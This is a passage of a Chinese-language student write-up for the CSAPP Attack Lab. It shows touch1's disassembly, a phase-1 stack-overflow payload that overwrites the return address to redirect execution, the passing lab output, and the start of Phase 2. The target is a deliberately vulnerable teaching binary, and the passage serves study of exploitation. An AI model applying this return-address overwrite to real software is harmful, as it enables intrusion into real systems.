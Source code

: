 ~~~assembly

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
~~~

~~~bash
(gdb) print (char*) 0x403188
$2 = 0x403188 "No exploit.  Getbuf returned 0x%x\n"
~~~

#### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw <phase1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
~~~

***

### Phase 2

#### 要求

- 将touch2地址注入，其余与Phase1相同

~~~C
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
		}
	exit(0);
}
~~~
